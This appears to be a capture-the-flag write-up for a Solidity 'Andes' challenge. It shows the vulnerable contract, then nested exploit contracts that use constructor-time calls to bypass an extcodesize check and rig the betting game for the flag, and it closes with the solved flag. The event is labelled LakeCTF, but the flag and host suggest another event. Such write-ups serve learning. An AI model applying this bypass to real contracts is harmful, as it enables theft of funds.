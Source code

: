 ```yaml
---
ctf: LakeCTF 2022
published: 2022-11-11
tags:
- Blockchain
title: Andes

---
```


Andes is the second of the two Web3 challenges featured in the LakeCTF 2022.

At a first glance the contract may seem extremely lengthy and quirky

```Solidity
contract Andes {
    // designators can designate an address to be the next random
    // number selector
    mapping (address => bool) designators;
    mapping (address => uint) balances;

    address selector;
    uint8 private nextVal;
    address[8][8] bids;

    event Registered(address, uint);
    event RoundFinished(address);
    event GetFlag(bytes32);

    constructor(){
        designators[msg.sender] = true;
        _resetBids();
    }

    function isDesignator(address _address) public view returns(bool){
        return designators[_address];
    }

    modifier onlyDesignators() {
        require(designators[msg.sender] == true, "Not owner");
        _;
    }

    function register() public {
        require(balances[msg.sender] < 10);
        
        balances[msg.sender] = 50;

        emit Registered(msg.sender, 50);
    }

    function setNextSelector(address _selector) public onlyDesignators {
        require(_selector != msg.sender);
        selector = _selector;
    }

    function setNextNumber(uint8 value) public {
        require(selector == msg.sender);
        
        nextVal = value;
    }

    function _resetBids() private {
        for (uint i = 0; i < 8; i++) {
            for (uint j = 0; j < 8; j++) {
                bids[i][j] = address(0);
            }
        }
    }

    function purchaseBid(uint8 bid) public {
        require(balances[msg.sender] > 10);
        require(msg.sender != selector);

        uint row = bid % 8;
        uint col = bid / 8;

        if (bids[row][col] == address(0)) {
            balances[msg.sender] -= 10;
            bids[row][col] = msg.sender;
        }
    }

    function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }

    function getFlag(bytes32 token) public {
        require(balances[msg.sender] >= 1000);

        emit GetFlag(token);
    }

    function _canBeDesignator(address _addr) private view returns(bool) {
        uint size = 0;

        assembly {
            size := extcodesize(_addr)
        }

        return size == 0 && tx.origin != msg.sender;
    }

    function designateOwner() public {
        require(_canBeDesignator(msg.sender));
        require(balances[msg.sender] > 0);
        
        designators[msg.sender] = true;
    }

    function getBalance(address addr) public view returns(uint) {
        return balances[addr];
    }
}
```

However we can easily point out the nevralgic parts:

We have a `GetFlag` method that requires the caller to have 1000 coins in the balance mapping.

In order to increase our balance we should win a round

```Solidity
function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }
```

In order to win the round we should put a bet on the correct `nextVal`, however this operation can only be performed by the selector, and the selector can only be picked by a designator

```Solidity
  function setNextSelector(address _selector) public onlyDesignators {
      require(_selector != msg.sender);
      selector = _selector;
  }

  function setNextNumber(uint8 value) public {
      require(selector == msg.sender);
      
      nextVal = value;
  }
```

So basically we will need to build a matrioska of Contracts in order to bypass the various checks:

`extcodesize(_addr) == 0` should prevent non-human wallets, however also code in contracts contructor have the codesize set to zero.

Similarly, everytime we need to bypass a `msg.sender` we can create a child contract to use it as a proxy

```Solidity
contract ExploitGrandpa{
  
    Andes targetContract;
    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
    }
    function setNextNumber() public{
        targetContract.setNextNumber(1);
    }
    
}

contract ExploitFather{
    Andes public targetContract;
    ExploitGrandpa grandpaContract;

    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
        targetContract.register();
        targetContract.designateOwner();
        grandpaContract = new ExploitGrandpa(targetAddress);
        targetContract.setNextSelector(address(grandpaContract));
        grandpaContract.setNextNumber();
        targetContract.purchaseBid(1);
        targetContract.playRound();

    }
    function getAddress() public view returns(address){
        return address(this);
    }
    function getFlag(bytes32 token) public {
        targetContract.getFlag(token);
    }
    
}

contract ExploitSon{
    ExploitFather fatherContract;
    Andes targetContract;
    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
        fatherContract = new ExploitFather(targetAddress);

    }
    function getFatherExploitAddress() public view returns(address){
        return fatherContract.getAddress();
    }
    function getFlag(bytes32 token) public {
        fatherContract.getFlag(token);
    }
    
}
```

  

  

```Bash
$ Connection to nile.chall.pwnoh.io port 13378 [tcp/*] succeeded!
> Hello! The contract is running at 0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500 on the Goerli Testnet.
> Here is your token id: 0xf3f5a1a3bfe698a0de59eab124cfa2fb
> Are you ready to receive your flag? (y/n)
$ y
> Here is the flag: buckeye{n3v3r_g4mbl1ng_4g41n}
```